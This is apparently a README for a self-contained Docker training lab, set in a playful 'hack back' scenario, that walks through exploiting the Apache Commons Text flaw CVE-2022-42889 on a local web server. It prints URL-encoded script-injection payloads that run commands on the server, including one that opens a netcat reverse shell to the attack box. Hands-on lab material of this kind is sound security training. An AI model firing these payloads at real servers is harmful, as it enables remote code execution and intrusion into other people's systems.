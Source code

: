# LAB AUDITION

## PREREQUISITE
+ git
+ docker && docker compose

## SETUP THE ENVIRONMENT
+ `git clone https://github.com/kcoble/lab-audition`
+ `cd lab-audition`
+ `docker compose up`

### Configure the Kali Attack Box
+ `docker exec -it $(docker ps -aqf "name=attack-box") /bin/bash`
+ In the interactive shell, type `apt update && apt -y install kali-linux-headless`

## CHALLENGES
## Scenario
Globomantics is under cyber seige by the nefarious Dark Kittens Collective hacking conglomerate. As a member of the Globomantics security team, you've just been authorized corporate cover by the board to "hack back" in an attempt to take down these crafty cats. We've got a tip that the Dark Kittens Collective is running a web server at 10.0.0.3:8080, let's check it out!

### Enumeration
+ In the interactive attack box shell, type...
  + `curl -v '10.0.0.3:8080'`
  + `echo "VXNlIHNlYXJjaCBwYXJhbWV0ZXIgZm9yIE1GQQ==" | base64 -d`
  + `curl -XGET '10.0.0.3:8080/search?n=ghost'` (optional: repeat to see MFA code change)
+ We've found the Dark Kittens Collective Multi-Factor Authentication Generator (may come in handy later *future lab storyline enhancement*). This Apache Tomcat webserver (because of course it is) definitely uses scripting and some string replacement functionality. Cue research and we find there is a recently discovered vulnerability in Apache Commons Text that may come in handy if the Dark Kittens Collective hasn't patched yet! Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42889

### Verification
+ Since this is a takedown, we have no reason for stealth and want to let these Dark Kittens know we are after them so to verify the vulnerability we're going to drop a calling card on the webserver.
+ Tip: Make sure to urlencode the script line so special characters are properly interpreted.
  + To leave a calling card in /tmp/pwned, type `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fpwned%27%29%7D'`
  + To verify our calling card is on the webserver, type `docker exec -it $(docker ps -aqf "name=web-server") ls /tmp` 
    + *In real life, the Dark Kittens Collective webserver wouldn't be running in a local docker container (unless you are a hacker cat!) so we wouldn't be able to run this command.*

### Access
+ Leaving calling cards is cool, but we need more to take down these cats. Let's use the same proof of concept to get a reverse shell on the webserver.
+ In the interactive attack box shell, setup a listener `nc -nlvp 8888`
+ To iniative the reverse shell, run `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%2010.0.0.7%208888%20-e%20%2Fbin%2Fbash%27%29%7D'`
  + Verify access, type `id`
  + **Install the lazer pointer program and watch chaos of the Dark Kittens Collective as they destory each other from within.**
